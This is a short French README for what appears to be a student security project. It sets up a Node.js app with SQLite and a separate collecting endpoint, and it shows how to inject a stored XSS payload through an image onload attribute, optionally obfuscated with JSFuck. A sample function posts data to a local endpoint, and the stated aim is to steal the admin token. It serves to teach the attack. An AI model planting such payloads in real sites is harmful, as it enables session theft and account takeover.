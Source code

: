 # projetSecu

- Serveur nodeJs
- Bdd sqLite
- Front html, TailwindCss

## démarche

- lancer le front :
  dans \projetSecu\frontapp
  `npm run serve`

- lancer le back
  dans \projetSecu\webServer
  `node .\server.js`

- lancer l'endpoint
  dans \projetSecu\endPoint
  `node .\endPoint.js`

- poster une photo de ce type :

```
<img class="w-1/3" alt src="https://www.mercurynewscom/wp-content/uploads201905GettyImages-1143958717.jpgw=960" onload="(function(){ *** })();">
```
la fonction est à écrire à l'endroit des ***, de préférence transformée grâce a du jsFuck

exemple de func. envoyant de la data à notre endpoint

```
function send() {
    let obj = {
        test: 'hellloo'
    }
    axios.post('http://localhost:3000/test', obj)
        .then(function (response) {
            console.log(response);
        })
        .catch(function (error) {
            console.log(error);
        });
    console.log("sent")
}
```

on reçoit donc ensuite la data sur le endpoint

## Faille XSS

le but est de récupérer le token admin et de tout casser grace a lui